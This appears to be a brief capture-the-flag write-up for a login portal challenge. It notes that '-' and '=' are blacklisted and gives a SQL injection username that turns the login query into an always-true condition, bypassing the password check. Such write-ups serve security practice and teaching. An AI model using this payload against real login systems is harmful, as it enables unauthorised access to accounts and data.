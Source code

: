 # Login portal 1 - Challenge 3

 '-' and '=' are blacklisted

Let's use the following username:

`admin' or 1 or '`

So our resulting SQL query is something like:

`SELECT * FROM users where username='admin' OR 1 OR '' AND PASSWORD='xxxxxxxxx'`

POW!
